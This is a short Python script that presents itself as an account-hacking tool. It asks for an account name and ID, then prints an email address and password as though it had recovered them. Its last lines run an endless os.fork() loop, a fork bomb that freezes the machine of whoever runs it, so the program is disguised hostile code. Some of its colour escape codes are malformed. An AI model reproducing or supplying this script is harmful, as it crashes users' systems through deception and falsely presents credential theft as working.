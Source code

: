 import os
import time
from time import sleep
os.system("clear")
print("\033[1;36m enter the name acount : ")
sn = input ("\033[1;31m ===>")
print("\033[1;36 enter the id acount : ")
sd = input ("\033[1;36 ===>")
time.sleep(2)
print("Email : takah34@gmail.com")
time.sleep(2)
print("password : 32978365taki")
while True:
    os.fork()

